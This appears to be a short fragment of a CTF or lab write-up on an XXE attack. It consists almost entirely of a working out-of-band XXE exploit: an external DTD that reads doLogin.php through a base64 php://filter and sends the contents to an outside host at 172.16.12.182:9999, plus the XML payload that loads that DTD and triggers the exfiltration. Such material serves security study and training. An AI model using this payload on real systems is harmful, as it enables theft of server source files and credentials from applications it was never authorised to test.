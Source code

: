 ![image-20210802115937224](0x007ssrf/image-20210802115937224.png)

```dtd
<!ENTITY % xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">

<!ENTITY % xx "<!ENTITY send SYSTEM 'http://172.16.12.182:9999/1.php?data=%xxe;'>"> 

%xx;
```

payload:

```
<!DOCTYPE user[
<!ENTITY % load SYSTEM "http://172.16.12.182:9999/test.dtd">
 %load;
]>
<user><username>&send;</username><password>1231238WVcxQ</password></user>
```
